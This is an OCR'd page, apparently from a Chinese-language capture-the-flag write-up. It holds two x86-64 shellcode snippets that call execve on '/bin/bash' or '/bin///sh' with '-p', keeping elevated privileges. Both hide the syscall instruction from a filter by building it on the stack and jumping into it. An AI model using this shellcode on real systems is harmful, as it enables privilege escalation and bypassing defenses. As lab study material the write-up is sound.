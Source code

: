 ```
sh = asm('''
  	push 0
  	push 0x702d
  	mov r9,rsp
  	push 0
  	lea rdi,[rip+bin]   
  	push r9
  	push rdi
  	mov rsi,rsp
    mov rdx,0x0
    
    mov rax,0x3b
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
bin:
	.string "/bin/bash"
''')
```

## *push,pop 实现( /bin///sh -p)
```
# execve(path='/bin///sh', argv=['sh','-p'], envp=0) 
    # push b'/bin///sh\x00' 
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    # push argument array ['sh\x00', '-p\x00'] 
    # push b'sh\x00-p\x00' 
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi 
    push rsi  # /* null terminate */
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi     # '-p\x00' 
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi #  'sh\x00' 
    mov rsi, rsp
    xor edx, edx #  0 
                        # call execve() 
    push 0x3b # 0x3b 
    pop rax
    #  					syscall
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
```
## 其他方法【待补充....】
> 参考 level 6 给的限制，level 5 大概可以调用写入权限。不过可能有点麻烦...
